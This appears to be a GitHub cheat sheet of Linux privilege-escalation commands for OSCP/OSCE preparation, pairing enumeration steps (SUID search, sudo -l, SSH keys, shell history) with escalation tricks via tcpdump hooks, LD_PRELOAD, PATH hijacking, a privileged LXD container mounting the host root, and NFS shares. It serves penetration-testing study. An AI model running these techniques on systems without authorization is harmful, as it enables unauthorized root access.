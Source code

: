 This is a detailed cheat sheet for Linux PE, its handy in many certification like OSCP and OSCE

`ps aux | grep root`

> See processes running as root

`ps au`

> See logged in users

`ls /home`

> View user home directories

`ls -l ~/.ssh`

> Check for SSH keys for current user

`history`

> Check the current user's Bash history

`sudo -l`

> Can the user run anything as another user?

`ls -la /etc/cron.daily`

> Check for daily Cron jobs

`lsblk`

> Check for unmounted file systems/drives

`find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null`

> Find world-writeable directories

`find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null`

> Find world-writeable files

`uname -a`

> Check the Kernel versiion

`cat /etc/lsb-release`

> Check the OS version

`gcc kernel_expoit.c -o kernel_expoit`

> Compile an exploit written in C

`screen -v`

> Check the installed version of `Screen`

`./pspy64 -pf -i 1000`

> View running processes with `pspy`

`find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null`

> Find binaries with the SUID bit set

`find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null`

> Find binaries with the SETGID bit set

`sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root`

> Priv esc with `tcpdump`

`echo $PATH`

> Check the current user's PATH variable contents

`PATH=.:${PATH}`

> Add a `.` to the beginning of the current user's PATH

`find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null`

> Search for config files

`ldd /bin/ls`

> View the shared objects required by a binary

`sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart`

> Escalate privileges using `LD_PRELOAD`

`readelf -d payroll | grep PATH`

> Check the RUNPATH of a binary

`gcc src.c -fPIC -shared -o /development/libshared.so`

> Compiled a shared libary

`lxd init`

> Start the LXD initialization process

`lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine`

> Import a local image

`lxc init alpine r00t -c security.privileged=true`

> Start a privileged LXD container

`lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true`

> Mount the host file system in a container

`lxc start r00t`

> Start the container

`showmount -e 10.129.2.12`

> Show the NFS export list

`sudo mount -t nfs 10.129.2.12:/tmp /mnt`

> Mount an NFS share locally

`tmux -S /shareds new -s debugsess`

> Created a shared `tmux` session socket

`./lynis audit system`

> Perform a system audit with `Lynis`